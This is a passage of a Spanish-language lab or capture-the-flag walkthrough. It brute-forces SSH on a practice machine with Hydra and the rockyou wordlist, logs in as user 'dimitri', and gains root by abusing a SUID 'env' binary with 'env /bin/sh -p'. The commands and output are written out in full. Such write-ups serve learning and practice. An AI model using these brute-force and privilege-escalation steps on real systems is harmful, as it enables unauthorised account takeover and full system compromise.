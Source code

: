 Después de esto no encuentro mucho más, pero sabiendo el nombre de la impresora puedo suponer que existe un posible nombre de usuario "dimitri", con el puerto 22 del servicio ssh abierto intento un ataque de fuerza bruta con la herramienta hydra.

```bash
❯ hydra ssh://10.0.2.158 -l dimitri -P /usr/share/wordlists/rockyou.txt -t 60 -f
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-11-03 11:47:09
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 60 tasks per 1 server, overall 60 tasks, 14344399 login tries (l:1/p:14344399), ~239074 tries per task
[DATA] attacking ssh://10.0.2.158:22/
[STATUS] 312.00 tries/min, 312 tries in 00:01h, 14344113 to do in 766:15h, 34 active
[22][ssh] host: 10.0.2.158   login: dimitri   password: m****e
[STATUS] attack finished for 10.0.2.158 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-11-03 11:49:58
```
Ingresamos por ssh como dimitri.

```bash
❯ ssh dimitri@10.0.2.158
dimitri@10.0.2.158's password: 
dimitri@basic:~$ whoami
dimitri
```

# Shell como root

Enumerando encuentro que el binario "env" tiene permisos SUID.

```bash
dimitri@basic:~$ find / -perm -4000 -exec ls -la {} \; 2>/dev/null
-rwsr-xr-x 1 root root 48480 sep 24  2020 /usr/bin/env
-rwsr-xr-x 1 root root 55528 ene 20  2022 /usr/bin/mount
-rwsr-xr-x 1 root root 71912 ene 20  2022 /usr/bin/su
-rwsr-xr-x 1 root root 58416 feb  7  2020 /usr/bin/chfn
-rwsr-xr-x 1 root root 88304 feb  7  2020 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 52880 feb  7  2020 /usr/bin/chsh
-rwsr-xr-x 1 root root 35040 ene 20  2022 /usr/bin/umount
-rwsr-xr-x 1 root root 63960 feb  7  2020 /usr/bin/passwd
-rwsr-xr-x 1 root root 44632 feb  7  2020 /usr/bin/newgrp
-rwsr-xr-x 1 root root 481608 sep 24 00:13 /usr/lib/openssh/ssh-keysign
-rwsr-xr-- 1 root messagebus 51336 jun  6 16:07 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 19040 ene 13  2022 /usr/libexec/polkit-agent-helper-1
```
Sabiendo esto nos aprovechamos del binario env ejecutando una shell como root.

```bash
dimitri@basic:~$ env /bin/sh -p
# whoami
root
```
Hemos pwneado la maquina!!!

